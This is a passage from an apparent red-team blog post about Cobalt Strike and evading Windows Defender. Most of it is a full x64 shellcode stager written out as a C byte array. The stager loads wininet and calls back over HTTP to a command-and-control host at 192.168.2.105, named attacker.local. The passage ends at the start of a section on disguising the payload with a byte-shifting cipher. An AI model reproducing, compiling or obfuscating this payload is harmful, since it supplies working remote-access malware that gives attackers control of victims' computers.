 Here's the string above, decoded:

![Plaintext shellcode](/img/playing-with-cobalt-strike-2-11.webp)

#### Testing Plain Shellcode

Obviously, there is no obfuscation here. The IP address of `attacker.local` is even in plaintext. I wrapped this string in a tiny function to first determine if Defender would detect it once compiled, which it immediately did, identifying the executable as `Trojan:Win64/TurtleLoader.CS!dha`.

```c
int main() {
  unsigned char array[] = "\xfc\x48\x83\xe4\xf0\xe8\xc8\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x75\x72\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x4f\xff\xff\xff\x5d\x6a\x00\x49\xbe\x77\x69\x6e\x69\x6e\x65\x74\x00\x41\x56\x49\x89\xe6\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x48\x31\xc9\x48\x31\xd2\x4d\x31\xc0\x4d\x31\xc9\x41\x50\x41\x50\x41\xba\x3a\x56\x79\xa7\xff\xd5\xeb\x73\x5a\x48\x89\xc1\x41\xb8\x90\x1f\x00\x00\x4d\x31\xc9\x41\x51\x41\x51\x6a\x03\x41\x51\x41\xba\x57\x89\x9f\xc6\xff\xd5\xeb\x59\x5b\x48\x89\xc1\x48\x31\xd2\x49\x89\xd8\x4d\x31\xc9\x52\x68\x00\x02\x40\x84\x52\x52\x41\xba\xeb\x55\x2e\x3b\xff\xd5\x48\x89\xc6\x48\x83\xc3\x50\x6a\x0a\x5f\x48\x89\xf1\x48\x89\xda\x49\xc7\xc0\xff\xff\xff\xff\x4d\x31\xc9\x52\x52\x41\xba\x2d\x06\x18\x7b\xff\xd5\x85\xc0\x0f\x85\x9d\x01\x00\x00\x48\xff\xcf\x0f\x84\x8c\x01\x00\x00\xeb\xd3\xe9\xe4\x01\x00\x00\xe8\xa2\xff\xff\xff\x2f\x55\x6e\x71\x75\x65\x75\x65\x2f\x76\x31\x30\x2e\x30\x35\x2f\x5a\x30\x51\x5a\x39\x5a\x58\x45\x58\x47\x45\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x41\x63\x63\x65\x70\x74\x3a\x20\x61\x70\x70\x6c\x69\x63\x61\x74\x69\x6f\x6e\x2f\x6a\x73\x6f\x6e\x2c\x20\x74\x65\x78\x74\x2f\x68\x74\x6d\x6c\x2c\x20\x61\x70\x70\x6c\x69\x63\x61\x74\x69\x6f\x6e\x2f\x78\x68\x74\x6d\x6c\x2b\x78\x6d\x6c\x0d\x0a\x41\x63\x63\x65\x70\x74\x2d\x4c\x61\x6e\x67\x75\x61\x67\x65\x3a\x20\x73\x71\x0d\x0a\x41\x63\x63\x65\x70\x74\x2d\x45\x6e\x63\x6f\x64\x69\x6e\x67\x3a\x20\x67\x7a\x69\x70\x2c\x20\x62\x72\x0d\x0a\x55\x73\x65\x72\x2d\x41\x67\x65\x6e\x74\x3a\x20\x4d\x6f\x7a\x69\x6c\x6c\x61\x2f\x35\x2e\x30\x20\x28\x57\x69\x6e\x64\x6f\x77\x73\x20\x4e\x54\x20\x31\x30\x2e\x30\x3b\x20\x57\x69\x6e\x36\x34\x3b\x20\x78\x36\x34\x29\x20\x41\x70\x70\x6c\x65\x57\x65\x62\x4b\x69\x74\x2f\x35\x33\x37\x2e\x33\x36\x20\x28\x4b\x48\x54\x4d\x4c\x2c\x20\x6c\x69\x6b\x65\x20\x47\x65\x63\x6b\x6f\x29\x20\x43\x68\x72\x6f\x6d\x65\x2f\x36\x32\x2e\x30\x2e\x33\x32\x30\x32\x2e\x39\x34\x20\x53\x61\x66\x61\x72\x69\x2f\x35\x33\x37\x2e\x33\x36\x0d\x0a\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x41\xbe\xf0\xb5\xa2\x56\xff\xd5\x48\x31\xc9\xba\x00\x00\x40\x00\x41\xb8\x00\x10\x00\x00\x41\xb9\x40\x00\x00\x00\x41\xba\x58\xa4\x53\xe5\xff\xd5\x48\x93\x53\x53\x48\x89\xe7\x48\x89\xf1\x48\x89\xda\x41\xb8\x00\x20\x00\x00\x49\x89\xf9\x41\xba\x12\x96\x89\xe2\xff\xd5\x48\x83\xc4\x20\x85\xc0\x74\xb6\x66\x8b\x07\x48\x01\xc3\x85\xc0\x75\xd7\x58\x58\x58\x48\x05\xa1\x03\x00\x00\x50\xc3\xe8\x9f\xfd\xff\xff\x31\x39\x32\x2e\x31\x36\x38\x2e\x32\x2e\x31\x30\x35\x00\x00\x00\x00\x00";
}
```

#### Byte-Shifting Ceaser Cipher
